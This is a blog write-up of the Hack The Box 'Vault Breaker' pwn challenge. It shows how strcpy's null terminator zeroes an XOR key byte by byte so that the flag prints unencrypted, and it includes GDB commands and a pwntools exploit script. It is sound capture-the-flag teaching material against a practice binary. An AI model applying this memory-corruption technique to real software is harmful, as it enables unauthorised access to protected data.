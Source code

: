 ```yaml
---
layout: post
title:  Hack The Box - Vault Breaker
description: Vault Breaker pwn challenge
date: 2024-07-15
image: '/images/vault_breaker/Screenshot_2024-07-15.png'
image_caption: ''
tags: [htb, ctf, pwn, binexp, strcpy, easy]
---
```


This was a "very easy" challenge. That's relative, but it was *simple*.

With some GDB-fu and manual dynamic analysis we can reverse engineer a way to get the flag.

> TL;DR - Abuse strcpy to zero the program's XOR key. It will print the flag.

## The Program
The program's basic functionality is
1. Generate a random 32 byte key by reading `/dev/urandom` and store it in memory. The binary is PIE but we don't need to know *where* it's stored, for this challenge.
![random key]({{site.baseURL}}/images/vault_breaker/Screenshot_2024-07-15_random_key.png)
*offset of random key in binary*
2. Present the user with a simple 2-option menu
3. If the user enters `1`, we enter a key generation routine
    * Users control the length of the new key
    * The same place in memory is used, every time
    * After the routine we return to the original menu
4. If `2` is entered
    * the 32 bytes stored in memory is used to byte-wise XOR the flag
    * the result is printed
    * Any byte XOR'd with `0` is itself >;)

![XOR'd flag]({{site.baseURL}}/images/vault_breaker/Screenshot_2024-07-15_3.png)
*flag.txt "encrypted" with random bytes*

The vulnerability in this application is the use of `strcpy` to move random bytes
into the `random_key` memory.

According to [man pages](https://man7.org/linux/man-pages/man3/strcpy.3.html) for `man (3) strcpy`, the resulting string is null-terminated. We can abuse this behavior to zero the key used to XOR the flag. The trick is to zero the memory highest byte first, because `strcpy` will overwrite previously written null bytes if we start from the lowest byte.

## Hints
1. The GDB command `x/32bx &random_key` shows the bytes used for the key. Watch it change as the program generates keys of various lengths.
2. Set the key from the highest byte, first (31, 30, 29, ...)

![paused execution]({{site.baseUrl}}/images/vault_breaker/Screenshot_2024-07-15_2.png)
*execution while zero'ing xor key*

## Appendix I: Resources

GDB Command file (used with `-x`)

```bash
b *new_key_gen
b *secure_password + 410
commands 1
x/32bx &random_key
end
```

Script main

```python
io = start()

i = 31

input("\n[Press ENTER to start]\n")
while i >= 0:
    io.info(f"zeroing random_key[{i:02d}]")
    io.readuntil(b'> ')
    io.sendline(b'1')
    io.readuntil(b': ')
    i_string = str(i).encode('utf-8')
    io.sendline(i_string)
    i -= 1

io.readuntil(b'> ')
io.sendline(b'2')
io.readuntil(b'Vault: ')

flag = io.readall().decode()
```

<div class="gallery-box">
  <div class="gallery">
    <img src="/images/earth_orbit.jpg" loading="lazy" alt="void">
  </div>
  <em>Photo from <a href="https://unsplash.com/" target="_blank">Unsplash</a></em>
</div>
